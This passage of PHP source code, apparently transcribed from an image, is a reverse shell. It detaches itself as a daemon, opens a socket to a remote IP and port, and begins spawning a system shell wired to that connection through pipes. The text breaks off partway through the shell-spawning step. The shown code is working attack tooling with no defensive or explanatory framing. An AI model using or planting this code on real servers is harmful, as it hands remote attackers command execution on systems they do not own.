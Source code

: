 ```
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
```